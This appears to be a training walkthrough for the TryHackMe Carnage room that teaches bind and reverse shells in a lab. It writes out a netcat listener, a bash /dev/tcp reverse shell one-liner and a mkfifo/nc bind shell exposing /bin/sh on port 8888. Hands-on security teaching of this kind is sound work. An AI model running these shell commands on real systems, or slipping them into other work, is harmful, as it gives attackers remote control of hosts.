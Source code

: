 # HackerFrogs AfterSchool Network Hacking Session 4
## Session Topic: Bind and Reverse Shells /w TryHackMe
# Challenge 1: TryHackMe Carnage Room
## TryHackMe Link
https://tryhackme.com/room/c2carnage
### YouTube Walkthrough Link
https://youtu.be/Aqc0F9i1T04?t=929
### Method of Solve
* Step 1: click on the Task 1 header
* Step 2: click on the green `Start Machine` button
* Step 3: go to the top of the webpage, and click on the "Start AttackBox" button located underneath the cloud icon with the santa hat on it
* Step 4: wait 2 minutes for the AttackBox to finish loading
* Step 5: at the top of the webpage, copy the IP address under the `Target IP Address`. You can click on the icon to the right of the IP address to copy it to your clipboard
* Step 6: click on the control bar located in the middle of the screen, then click on the clipboard button
* Step 7: in the AttackBox desktop, click on the terminal shortcut button to open a terminal
* Step 8: create two separate web browser windows, side by side, with the Carnage target machine on one side, and the AttackBox on the other side
## Part 1: Setting Up and Connecting to a Reverse Shell Connection
* Step 1: In the AttackBox, use the following Netcat command to setup a listener
```
nc -nlvp 8888
```
There is not a listener on the AttackBox on port 8888
* Step 2: On the Carnage machine, use the following command to connect to the AttackBox machine
```
bash -i >& /dev/tcp/<ATTACKBOX_IP>/8888 0>&1
```
In the AttackBox terminal, we are now connected to the Carnage machine as the `ubuntu` user. The reverse shell connection has been established
* Step 3: In the AttackBox, use the following command to close the reverse shell connection
```
exit
```
## Part 2: Setting Up and Connecting to a Bind Shell Connection
* Step 1: In the Carnage machine, use the following Netcat command to setup a bind shell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 8888 > /tmp/f
```
Now there's a listener on the Caranage machine's port 8888 which can receive incoming connections
* Step 2: In the AttackBox, use the following Netcat command to connect to the Carnage machine
```
nc <CARNAGE_IP> 8888
```
We are now connected to the Carnage machine on the AttackBox machine
